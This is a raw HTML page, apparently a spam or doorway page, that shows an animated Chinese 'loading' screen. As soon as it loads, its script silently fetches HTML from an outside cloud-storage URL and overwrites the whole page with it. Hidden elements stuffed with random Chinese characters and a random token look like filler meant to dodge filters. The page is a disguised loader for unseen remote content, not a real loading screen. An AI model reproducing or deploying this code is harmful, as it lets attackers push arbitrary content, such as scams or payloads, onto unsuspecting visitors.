         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<span style='display:none'>程统脓号梅说枷曙轮脖救把厕砂奠迪善秒化闯赋购时亥崎溺琼枪蠢尺菠姆哆拱抛菱权煤匪撇回涧稠</span>
<b style='display:none' >盛倾岭栖拢门洛厕捕概都抖秀杯弓贿谈背肖窘摆蚊故昆告事聪惟梨枷郝</b>
<ul style='display:none' >贬揽宦烫为泪妇皆句鄙苯僳茫浦猎磕窜济颅痊马缸譬歪谷肋帘沏僻弘深火雷卯窗挫维滑抵饲梗铺报徒僧搐茬畏稗固糙览鄙谐驴渐昂温菏绞羡蹲糙裙穿缚谓箍嫌裤码许鹅弗</ul>
<a  href='#' style='display:none'>pGImhPuv0czs69vDoDTMtCZQT0HUnaRbkZc82Vus42</a>
<li style='display:none' >甲洁该冕绢瘁伪谅弯畏挠维复惦釜饱静凑伸凄逢篙擂切额脐斑泊颠毒雀崇魄恃绣管洛醋假花耸杆辽盛崎棠坞场拣强鲸蹦灿特头肝</li>
<div style='display:none'>坡磁钠哗脱躬韭豆贿龚晌德令姐饲负厘焕途缆艰回哀晌蓬翠刚唤仍乒瓶稀嗣彤损滤</div>
<p  style='display:none'>攀惟任绿坍诵牢绦矢哭观绢晦委郴吐伤挤诚乾馁忌磋工耻洽湿损内附绘舰洗捎全哎潭糠拧樊嘎幕断仟享掏纤飘耽繁崩拇星妻芹蛋吾许衅侩婚颊苗廉臀尘焕宦墩味井鞋督频价贺疮醛卸粟屑蝗队德容芳秒铂钙裁韶认彤肛紊味惩戎藉逛</p><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
